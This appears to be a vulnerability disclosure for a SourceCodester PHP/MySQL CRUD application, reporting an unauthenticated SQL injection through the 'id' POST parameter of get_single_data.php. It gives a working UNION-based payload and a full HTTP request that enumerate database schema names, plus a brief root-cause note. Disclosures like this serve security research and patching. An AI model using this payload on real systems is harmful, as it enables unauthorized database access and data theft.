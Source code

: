 # CRUD (Create, Read, Update, Delete) Without Page Reload/Refresh Using PHP and MySQL with Source Code - SQL injection vulnerability

### You do not need to log in to the website to remotely trigger SQL injection vulnerabilities!

Supplier:https://www.sourcecodester.com/php/17146/crud-create-read-update-delete-without-page-reloadrefresh-using-php-and-mysql-source-code

http://localhost/get_single_data.php   -----> POST -----> 'id' can control some id parameters

Payload:id=-8845' UNION ALL SELECT (SELECT CONCAT(0x01,IFNULL(CAST(schema_name AS CHAR),0x20),0x01) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 12,1),NULL,NULL,NULL,NULL-- -

Running this payload will display the name of the database. This indicates that the malicious SQL statement has been successfully executed in the database, allowing database UNION query queries.

```r
POST /get_single_data.php HTTP/1.1
Host: xxxxxxxx
Content-Type: application/x-www-form-urlencoded
Content-Length: 160

id=-8845' UNION ALL SELECT (SELECT CONCAT(0x01,IFNULL(CAST(schema_name AS CHAR),0x20),0x01) FROM INFORMATION_SCHEMA.SCHEMATA LIMIT 12,1),NULL,NULL,NULL,NULL-- -
```

![1](https://github.com/xuanluansec/vul/blob/main/vul/img/11.png)

The include method in the second line of the get_single.data.php file in the root directory of the website retrieves user input from the POST element. Then, the value of this element will be passed to the code without proper purification or validation, and ultimately used for database queries in the include method on line 4 of the get_single.data.php file, leading to SQL injection attacks.

![2](https://github.com/xuanluansec/vul/blob/main/vul/img/12.png)
